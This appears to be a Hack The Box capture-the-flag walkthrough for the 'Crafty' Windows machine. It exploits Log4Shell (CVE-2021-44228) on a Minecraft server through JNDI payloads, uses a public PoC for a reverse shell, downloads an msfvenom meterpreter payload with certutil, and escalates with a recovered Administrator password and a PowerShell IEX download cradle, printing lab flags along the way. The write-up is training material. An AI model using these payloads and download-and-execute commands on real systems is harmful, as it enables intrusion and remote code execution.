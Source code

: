 # Crafty

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Windows
- **Points:** 20

## Solution

Let's start with enumeration:

```sh
sudo nmap -p 80,25565 -A 10.10.11.249 
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-06 18:29 CET
Nmap scan report for crafty.htb (10.10.11.249)
Host is up (0.031s latency).

PORT      STATE SERVICE   VERSION
80/tcp    open  http      Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Crafty - Official Website
|_http-server-header: Microsoft-IIS/10.0
25565/tcp open  minecraft Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 0/100)
```

Once we open `10.10.11.249` in browser, we can see, that it states, that browser can't resolve `crafty.htb`, so let's add it to `/etc/hosts`:

```sh
echo "10.10.11.249 crafty.htb" | sudo tee -a /etc/hosts
```

So let's open it now in browser:

![start](./start.jpg)

Hm, need to connect with `Minecraft` on server `play.crafty.htb`? :)

Let's donwload [pyCraft](https://github.com/ammaraskar/pyCraft?source=post_page-----316a735a306d--------------------------------) and see what we can do:

```sh
$ python3 start.py
Enter your username: test
Enter your password (leave blank for offline mode): 
Enter server host or host:port (enclose IPv6 addresses in square brackets): 10.10.11.249
Connecting in offline mode...
Connected.
```

We can find `CVE-2021-44228` vulnerability for minecraft servers, let's test if it's indeed vulnerable. *(I suggest to read [Unified](https://github.com/bu19akov/CTF-Challenge-Solutions/blob/main/Hack%20The%20Box/starting_point/tier_2/4%20-%20Unified/solution.md) walkthrough first)*

Firstly, we will monitor our traffic on port `1389` and secondly, we will send the payload on the port:

```sh
$ sudo tcpdump -i utun7 port 1389
```

Then send this from `pyCraft`:

```sh
${jndi:ldap://10.10.14.92:1389/anything}
```

And we get the response:

```sh
19:01:05.545568 IP crafty.htb.49691 > 10.10.14.92.iclpv-dm: Flags [SEW], seq 306940046, win 64240, options [mss 1337,nop,wscale 8,nop,nop,sackOK], length 0
19:01:05.545634 IP 10.10.14.92.iclpv-dm > crafty.htb.49691: Flags [R.], seq 0, ack 306940047, win 0, length 0
```

So it's indeed vulnerable!

Let's attack it, using [this](https://github.com/kozmer/log4j-shell-poc?source=post_page-----316a735a306d--------------------------------) tool. Firtsly, change `String cmd="/bin/bash";` in `poc.py` to `String cmd="cmd.exe";`, because our target is `Windows`, then follow installation steps from the link and set up netcat listener on port `9001`:

```sh
$ python3 poc.py --userip 10.10.14.92 --webport 80 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://10.10.14.92:1389/a}

[+] Starting Webserver on port 80 http://0.0.0.0:80
Listening on 0.0.0.0:1389
Send LDAP reference result for a redirecting to http://10.10.14.92:80/Exploit.class
10.10.11.249 - - [06/Mar/2024 19:45:18] "GET /Exploit.class HTTP/1.1" 200 -
```

Then send `${jndi:ldap://10.10.14.92:1389/a}` in `pyCraft` console and we are in:

```sh
nc -l 9001
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\Users\svc_minecraft\Desktop>type user.txt
e61382c442d1a3b40d3ecb11d0e39ae9
```

Now we need to escalate our privileges to `Administrator`.

We can find some interesting file, but with our current shell we can't download it:

```sh
c:\Users\svc_minecraft\server\plugins>dir
 Volume in drive C has no label.
 Volume Serial Number is C419-63F6

 Directory of c:\Users\svc_minecraft\server\plugins

10/27/2023  01:48 PM    <DIR>          .
10/27/2023  01:48 PM    <DIR>          ..
10/27/2023  01:48 PM             9,996 playercounter-1.0-SNAPSHOT.jar
               1 File(s)          9,996 bytes
               2 Dir(s)   3,426,013,184 bytes free
```

Let's create reverse shell:

```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.92 LPORT=4444 -f exe -o shell.exe
```

Then start `python` server:

```sh
$ python3 -m http.server 8080
```

And download the shell from the target machine and start it:

```sh
c:\users\svc_minecraft\servercertutil -urlcache -f http://10.10.14.92:8080/shell.exe %temp%/shell.exe   
certutil -urlcache -f http://10.10.14.92:8080/shell.exe %temp%/shell.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

c:\users\svc_minecraft\server>start %temp%/shell.exe
```

Now we can download `.jar` file and analyze it with [JD-Gui](http://java-decompiler.github.io):

![cred](./cred.jpg)

We can see something like `Administrator` password. Now we need to create one more shell for `Powershell`, upload it to victim's machine and start it with our credentials. We can use [this](https://www.revshells.com) online tool to create `Powershell` reverse shell:

![shell](./shell.jpg)

Then set up our netcat listener:

```sh
$ nc -l 9002
```

And execute following commands from victim's machine:

```sh
c:\users\svc_minecraft\server>powershell
PS C:\users\svc_minecraft\server> $SecPass = ConvertTo-SecureString 's67u84zKq8IXw' -AsPlainText -Force
$SecPass = ConvertTo-SecureString 's67u84zKq8IXw' -AsPlainText -Force
PS C:\users\svc_minecraft\server> $cred = New-Object System.Management.Automation.PSCredential('Administrator',$SecPass)
$cred = New-Object System.Management.Automation.PSCredential('Administrator',$SecPass)
PS C:\users\svc_minecraft\server> Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.92:8080/rev.ps1')" -Credential $cred
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.92:8080/rev.ps1')" -Credential $cred
```

And we are in as `Administrator`:

```sh
$ nc -l 9002
whoami
crafty\administrator
```

Let's get flag:

```sh
type root.txt
4cb6d5a9fcbff73a8f4ef161922bb8cf
```

## Final Flags

> `user`: e61382c442d1a3b40d3ecb11d0e39ae9
> `root`: 4cb6d5a9fcbff73a8f4ef161922bb8cf

*Created by [bu19akov](https://github.com/bu19akov)*